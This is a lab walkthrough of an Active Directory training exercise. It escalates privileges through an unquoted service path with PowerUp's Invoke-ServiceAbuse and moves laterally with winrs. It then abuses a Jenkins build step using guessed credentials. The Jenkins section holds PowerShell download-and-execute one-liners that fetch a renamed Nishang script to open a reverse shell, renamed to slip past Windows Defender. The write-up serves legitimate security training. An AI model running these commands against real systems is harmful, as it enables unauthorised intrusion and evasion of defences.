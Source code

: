 # 🆙 Elevate Privileges & gain a shell

Task&#x20;

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.&#x20;

• Identify a machine in the domain where studentx has local administrative access.&#x20;

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

***

For this path we'll use Powerup from PowerSploit module to check for any privilege escalation path. But we could also use WinPEAS.

```
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
#if we want to look only for unquoted path ->
Get-ServiceUnquoted
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>This is a snip</p></figcaption></figure>

We quickly see the SeviceName is AbyssWebServer:

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then check and enumerate services where the current user can make changes to service binary ->

```
Get-ModifiableServiceFile -Verbose
```

<figure><img src="../../.gitbook/assets/image (1473).png" alt=""><figcaption></figcaption></figure>

#### Explanation of the Situation

**Unquoted Service Path Vulnerability**

In Windows, services can be configured to run executables. When the path to the executable contains spaces and is not enclosed in quotes, it can lead to a security vulnerability known as an "unquoted service path". This vulnerability allows an attacker to place a malicious executable in a path that the service may inadvertently execute.

The command `In`

`voke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose` is used to exploit this vulnerability. Here's a breakdown of what the command does:

* **Invoke-ServiceAbuse**: This is a PowerShell function from the PowerSploit framework, used to manipulate Windows services.
* **-Name 'AbyssWebServer'**: Specifies the name of the service to manipulate.
* **-UserName 'dcorp\student613'**: Specifies the user context under which the command will run. This user should have the necessary permissions to modify the service configuration or its executable path.
* **-Verbose**: Provides detailed output of the actions being performed for debugging or informational purposes.

With this information, we can use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group ->

```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student613' -Verbose
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The command exploits an unquoted service path vulnerability in the following way:

* **Modifies the service path**: Changes the path to execute a system command instead of the service executable.
* **Executes a privileged action**: Runs the command to add a specified user to the Administrators group, elevating the user’s privileges.
* **Restores the service configuration**: Resets the service path to its original value to cover tracks and maintain normal operations.
* **Maintains the service state**: Ensures the service remains in its initial state (stopped) to avoid detection.

Now we are part of the local administrator group. If we just logoff and logon again, and we have local administrator privileges.

He's where we are in our enumeration according a guy on discord:

> you're local admin on the studentvm machine, then you use the Find-PSRemotingLocalAdminAccess to discover you have rights to connect to dcorp-adminsrv (via winrs or PSRemoting)

Next, a good thing to do could be to identify a machine in the domain where the user student613 has local administrative access. For this we can use `Find-PSRemotingLocalAdminAccess.ps1`

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we see that we have Admin access on the dcorp-adminsrv and on the student machine. We need to identify a machine in the domain where we can have local admin access (dcorp-adminsrv) and after that we can connect to dcorp-adminsrv using winrs as the student user

Identify machine:

```
. C:\Ad\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

<figure><img src="../../.gitbook/assets/image (1474).png" alt=""><figcaption></figcaption></figure>

Now we can connect:

```
winrs -r:dcorp-adminsrv cmd 
set username 
set computername
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* `winrs`: Stands for Windows Remote Shell, a command-line tool that allows you to execute commands on a remote machine.
* `-r:dcorp-adminsrv`: Specifies the remote machine to connect to. In this case, `dcorp-adminsrv`.
* `cmd`: Launches the command prompt (`cmd.exe`) on the remote machine.

<figure><img src="../../.gitbook/assets/image (1084).png" alt=""><figcaption></figcaption></figure>

So we were able to get a shell on dcorp-adminsrv

&#x20;

<figure><img src="../../.gitbook/assets/image (1085).png" alt=""><figcaption></figcaption></figure>

***

Now let's try to have fun with a jenkins server without admin access. To do so, we need to have privileges to Configure builds

We start by going to our Jenkins “People” page:

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>we can see the users present on the Jenkins instance</p></figcaption></figure>

It's good to know that Jenkins does not have password policies, so admin:admin of felix:felix could be a valid set of credentials

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

After fooling around we manage to get an access via the builduser user, he can Configure builds and Add Build Steps which will help us in executing commands.

To get our reverse shell we are going to use a slightly modified version of Invoke-PowerShellTcp from Nishang. We renamed the function InvokePowerShellTcp to Power in the script to bypass Windows Defender.

Nishang: [https://github.com/samratashok/nishang/tree/master](https://github.com/samratashok/nishang/tree/master)

We then go in the following path to create and execute a batch command ->

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

> If using Invoke-PowerShellTcp, make sure to include the function call in the script Power -Reverse - IPAddress 172.16.100.X -Port 443 or append it at the end of the command in Jenkins. Please note that you may always like to rename the function name to something else to avoid detection.
>
> powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
>
> or
>
> powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443\
>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We then launch our hfs server (could work with python server, upload the invoke tcp file in the hfs directory and then build our project to trigger the script and create a reverse shell

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
powershell.exe iex (iwr http://172.16.100.13/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.13 -Port 443 
```

<figure><img src="../../.gitbook/assets/image (1086).png" alt=""><figcaption></figcaption></figure>
